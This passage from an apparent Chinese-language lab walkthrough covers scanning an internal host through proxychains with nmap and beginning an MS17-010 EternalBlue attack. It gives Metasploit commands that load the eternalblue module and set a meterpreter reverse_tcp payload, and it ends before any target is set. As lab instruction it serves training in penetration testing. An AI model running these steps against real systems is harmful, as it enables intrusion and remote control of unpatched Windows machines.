 扫描 192.168.93.40

```bash
proxychains nmap -Pn -sT -sV -F -O 192.168.93.40
```

[![](assets/1708094050-51177cc72c3e1510713c3c5f8f2801f7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621150119-6c997e98-1001-1.png)  
发现两台机器且存在域

## **8 实验八：ms17-010**

Eternalblue 通过 TCP 端口 445 和 139 来利用 SMBv1 和 NBT 中的远程代码执行漏洞，恶意代码会扫描开放 445 文件共享端口的 Windows 机器，无需用户任何操作，只要开机上网，不法分子就能在电脑和服务器中植入勒索软件、远程控制木马、虚拟货币挖矿机等恶意程序。  
已知受影响的 Windows 版本包括但不限于：Windows NT，Windows 2000、Windows XP、Windows 2003、Windows Vista、Windows 7、Windows 8，Windows 2008、Windows 2008 R2、Windows Server 2012 SP0。  
使用 Metasploit 对目标进行监听

```bash
proxychains msfconsole  # 启动 Metasploit
search ms17-010     # 查找永恒之蓝漏洞
```

[![](assets/1708094050-92f2075547d62872dc09adb35bb91756.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621150231-970eab26-1001-1.png)

```bash
use exploit/windows/smb/ms17_010_eternalblue  #执行漏洞
set payload windows/x64/meterpreter/reverse_tcp  #执行 payload
show options  #查看当前攻击配置
```
